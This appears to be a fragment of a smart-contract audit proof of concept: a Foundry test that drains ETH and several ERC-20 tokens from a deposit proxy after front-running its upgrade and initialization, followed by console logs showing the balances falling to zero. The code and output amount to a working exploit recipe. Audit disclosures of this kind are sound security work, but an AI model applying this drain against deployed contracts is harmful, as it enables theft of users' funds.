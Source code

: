 ```
            console.log("%s (%s): %d", tokensToSteal[i], symbol, balance);
        }        
        
        vm.startPrank(attacker);
        for(uint i; i < tokensToSteal.length; i++) {
            uint amount;
            if (tokensToSteal[i] == address(0)) {
                amount = address(deposit_proxy).balance;
            } else {
                amount = IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy));
            }

            deposit_proxy.withdraw(address(0), address(attacker_controlled_contract), tokensToSteal[i], amount);

            if (tokensToSteal[i] == address(0)) {
                amount = address(deposit_proxy).balance;
            } else {
                amount = IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy));
            }
        }
        vm.stopPrank();

        console.log("");
        console.log("Balance of proxy, after attack:");
        for(uint i; i < tokensToSteal.length; i++) {
            string memory symbol = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).symbol() : "ETH";
            uint balance = tokensToSteal[i] != address(0) ? IERC20(tokensToSteal[i]).balanceOf(address(deposit_proxy)) : address(deposit_proxy).balance;
            console.log("%s (%s): %d", tokensToSteal[i], symbol, balance);
        }
    }
}
```
Console Output:
```
Logs:
  
NOTE: For simplicity of POC, we are pranking `proxy owner` for upgradeTo tx
  New implementation deployed at: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  Proxy owner is upgrading proxy implementation to new implementation: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  Address of attacker: 0xD022658Fd5608078a8c0E5464066B1803a2806F4
  Attacker controlled contract is deployed at : 0x2e234DAe75C793f67A35089C9d99245E1C58470b
  Attacker can backrun/frontrun upgradeTo/initialize tx respectively. Here, its backrunning upgradeTo tx
  Exchange is initialized to : 0xD022658Fd5608078a8c0E5464066B1803a2806F4
  Attacker can steal all the funds from proxy
  
  Balance of proxy, before attack:
  0x0000000000000000000000000000000000000000 (ETH): 335512531059683421416
  0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C (USDM): 1189366766477136447755153
  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 (USDC): 1144659513586
  0x53C8395465A84955c95159814461466053DedEDE (DG): 7182533387141239290607714
  0xdAC17F958D2ee523a2206206994597C13D831ec7 (USDT): 300470896446
  
  Balance of proxy, after attack:
  0x0000000000000000000000000000000000000000 (ETH): 0
  0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C (USDM): 1
  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 (USDC): 0
  0x53C8395465A84955c95159814461466053DedEDE (DG): 0
  0xdAC17F958D2ee523a2206206994597C13D831ec7 (USDT): 0
```